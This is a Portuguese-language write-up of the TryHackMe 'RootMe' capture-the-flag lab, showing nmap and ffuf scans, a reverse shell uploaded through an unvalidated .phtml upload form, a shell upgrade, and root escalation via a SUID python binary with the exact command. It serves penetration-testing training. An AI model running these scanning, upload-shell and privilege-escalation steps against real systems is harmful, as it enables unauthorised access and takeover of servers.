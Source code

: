 # ROOTME WRITEUP - TRYHACKME

este é um repositório rápido, explicando como entramos na máquina [rootme](https://tryhackme.com/room/rrootme) do tryhackme.



### OUTPUT DO NMAP 
```
nmap -sV -T5 -vvv -p- 10.10.128.17
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### BRUTE FORCE DE DIRETÓRIOS UTILIZANDO O FFUF

```
ffuf -c -u http://10.10.128.17/FUZZ -w /usr/share/wordlists/common.txt
uploads                 [Status: 301, Size: 314, Words: 20, Lines: 10]
js                      [Status: 301, Size: 309, Words: 20, Lines: 10]
panel                   [Status: 301, Size: 312, Words: 20, Lines: 10]
css                     [Status: 301, Size: 310, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
                        [Status: 200, Size: 616, Words: 115, Lines: 26]
:: Progress: [62275/62275] :: Job [1/1] :: 238 req/sec :: Duration: [0:04:21] :: Errors: 3 ::
```
encontrei dois diretórios interessante de analizar, que era o **panel** e **uploads**.

existia uma vulnerabilidade de upload de arquivo.
entrando no diretório podemos obter uma lista de arquivos upados, mas por enquanto o diretório ainda estava vazio.

entrando no diretório /panel encontramos um form de upload, no qual poderiamos upar um arquivo para obter uma reverse shell. 
obtive uma shell no site [reverse shells](https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html)

Parece que o servidor não validava o tipo de arquivo que está sendo carregado, pelo menos .phtml ele não validava, portanto, podemos carregar nosso arquivo malicioso para obter uma reverse shell

Recebi um aviso dizendo que a shell foi upada. Entrei no diretório /uploads e lá estava meu arquivo malicioso, apenas executei e recebi a shell no meu netcat que estava rodando com a porta 1337 em modo de escuta.

### OBTENDO UMA SHELL MELHOR

Utilizando o modulo do python 'pty', usei um comando para dar um upgrade na minha shell utilizando o comando: 

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm-256color
CTRL+Z
stty -echo raw
fg
stty rows 41 columns 166
```

Obtive a primeira flag que estava no diretório /home/$USER/user.txt

### BUSCANDO ARQUIVOS BINÁRIOS COM PERMISSÃO SUID

```
www-data@rootme:/home$ find / -perm /4000 2>/dev/                                                                           
/usr/lib/dbus-1.0/dbus-daemon-launch-helpe
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
...
/usr/bin/python
...
/usr/bin/chfn
/usr/bin/gpasswd

www-data@rootme:/home$ ls -lat /usr/bin/python 
-rwsr-sr-x 1 root root 3665768 Aug  4 17:47 /usr/bin/python
```

Podemos ver o python com essas permissões. 

### PRIVESC NA MÁQUINA

Já que tinhamos o python executando com permissões elevadas, logo busquei uma maneira de elevar meus privilegios para root.
O [GTFOBin](https://gtfobins.github.io/) tem vários métodos de escalação de privações que podemos usar.

```
www-data@rootme:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@rootme:/$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=33(www-data) groups=33(www-data)

```

e assim conseguimos root e a flag root no diretório /root/root.txt
